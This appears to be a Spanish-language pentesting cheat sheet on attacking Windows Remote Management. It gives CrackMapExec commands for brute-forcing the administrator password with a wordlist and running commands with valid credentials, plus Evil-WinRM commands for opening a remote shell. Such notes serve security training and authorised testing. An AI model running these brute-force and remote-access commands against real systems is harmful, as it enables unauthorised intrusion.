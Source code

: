# WINRM 

Tags: #WinRM #Windows #Crackmapexec

* 5985 -> HTTP
* 5986 -> HTTPS

Windows Remote Management (WinRM) es utilizado de las siguientes maneras:
* Acceso remoto e interactúa con los host en una red local de Windows.
* Acceso remoto y ejecuta comandos en sistemas Windows 
* Manejo y configuración de sistemas Windows remotamente 

## Crackmapexec

```bash
❯ apt-get -y install crackmapexec     # Para instalar crackmapexec. CrackMapExec currently supports remote authentication using MSSQL, SMB, SSH, and WinRM.
```

```python 
# Haremos brute force para saber la passwd del usuario administrador
❯ crackmapexec winrm ❮IP❯ -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 

❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯ -x "whoami"   # Teniendo credenciales validas, podemos usar Crackmapexec para ejecutar un comando
	
	# u = Usuario
	# p = Password
	# x = Ejecutar un comando (whoami, systeminfo)
```


## Evil-WinRM

Cuando tengamos credenciales validas en el Crackmapexec, podemos usar este servicio para conectarnos.
```bash
❯ gem install evil-winrm          # Instalar Evil-winrm
❯ gem uninstall evil-winrm        # Desinstalar Evil-winrm
❯ gem cleanup evil-winrm          # Si nos marca un error, debemos de desinstalarlo y hacerle el clean, para despues instalarlo de nuevo
```

```bash
❯ evil-winrm.rb -u administrator -p <'passwd'> -i ❮IP❯   # Conectarnos al servicio de administracion remota de Windows
❯ evil-winrm -i ❮IP❯ -u ❮'user'❯ -p ❮'password'❯             
```

